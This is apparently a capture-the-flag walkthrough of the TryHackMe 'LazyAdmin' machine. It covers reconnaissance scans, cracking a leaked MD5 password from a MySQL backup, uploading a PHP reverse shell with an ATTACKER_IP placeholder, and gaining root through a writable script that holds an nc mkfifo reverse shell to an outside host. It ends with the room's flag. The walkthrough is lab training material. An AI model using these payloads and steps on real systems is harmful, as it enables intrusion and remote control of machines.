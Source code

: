 # LazyAdmin

## Nmap scan

```java
nmap -sCV 10.10.123.180
```

```java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 07:36 EDT
Nmap scan report for 10.10.123.180
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.46 seconds
```

---

```
searchsploit Apache 2.4.18
```

![image](https://github.com/user-attachments/assets/78340e37-e337-49ea-bc03-001eaf8ea88f)



![image](https://github.com/user-attachments/assets/a30625da-953e-485d-a464-3018c3a46e4c)


---

## gobuster

```
gobuster dir -u http://10.10.123.180/ -w /home/kali/Downloads/wordlists/directory-list-2.3-medium.txt
```

![image](https://github.com/user-attachments/assets/931f870f-d0f3-497e-bee8-4ee00e138be6)


```
http://10.10.123.180/content/
```


![image](https://github.com/user-attachments/assets/76b68eb7-4951-4d8d-a30b-b975161bf390)

so we need to found way to open website threw 

``Dashboard`` -> ``General`` -> ``Website setting``

but first login to website how??!!


```
ffuf -u http://10.10.123.180/content/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

![image](https://github.com/user-attachments/assets/0cdadc3b-4f54-4f9a-81bd-c3a8705fa4e9)


```
http://10.10.123.180/content/as/
```

![image](https://github.com/user-attachments/assets/4a0fa750-7480-4e6c-b98b-4b2dca68c00e)



```
http://10.10.123.180/content/inc/
```


![image](https://github.com/user-attachments/assets/4a5ce583-082c-4ba0-8804-7e652c907548)

found mysql backup:

```bash
cat mysql_bakup_20191129023059-1.5.1.sql
```


![image](https://github.com/user-attachments/assets/8d3e9a9c-c2b7-4d7c-b0be-ff3b1d09e20a)


so cridentials :

```
manager : 42f749ade7f9e195bf475f37a44cafcb
```

https://crackstation.net/

![image](https://github.com/user-attachments/assets/b6c4b4f3-0a01-48da-94e3-7d9d4c263dbe)

```
Password123
```

now login with this username and passowrd

![image](https://github.com/user-attachments/assets/f9708c93-0e83-4add-bd67-7d8b0d010cf5)


try to open website again: 

```
http://10.10.123.180/content/
```

![image](https://github.com/user-attachments/assets/f1c8b3ba-508c-47e1-b97c-5c73f2aeb815)


```
https://www.exploit-db.com/
SweetRice
```

---

```
nano shell.phtml
```

WHY ``.phtml`` ???

<details>

![image](https://github.com/user-attachments/assets/0a999cb6-ea51-4217-9fa1-d3e371ea574e)


![image](https://github.com/user-attachments/assets/0710909f-40f1-4c98-b8f1-4680b6f2e775)

accept all nearly exept ``php``



  
</details>


```
<?php
// PHP Reverse Shell
$ip = 'ATTACKER_IP';  // change to your IP
$port = ATTACKER_PORT; // change to your port
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

![image](https://github.com/user-attachments/assets/2e3e8ff9-6208-40ae-9cbf-b55e9ac9f6cd)



```
http://10.10.252.132/content/attachment/shell.phtml
```

![image](https://github.com/user-attachments/assets/88554c46-15a1-4463-9ac7-eda18b2612a6)


![image](https://github.com/user-attachments/assets/8bb9b4af-9ad5-4b0a-bf5a-f655b796e01b)




## preiv esc



```
sudo -l 
```

![image](https://github.com/user-attachments/assets/9fc95859-794e-439c-a18f-2bc446847c14)

---

![image](https://github.com/user-attachments/assets/826e2e9f-af61-42e5-b836-f938b262f2f1)


```
 ls -l /home/itguy/backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
$ ls -l /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

so we can edit and excute ``copy.sh``

```
echo "/bin/bash" > /etc/copy.sh 
```

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![image](https://github.com/user-attachments/assets/a8d3736f-28d4-4b0c-b726-3f6894a5475a)

![image](https://github.com/user-attachments/assets/6dce9141-c769-4cfe-9dd6-253f7f263249)


```
THM{6637f41d0177b6f37cb20d775124699f}
```





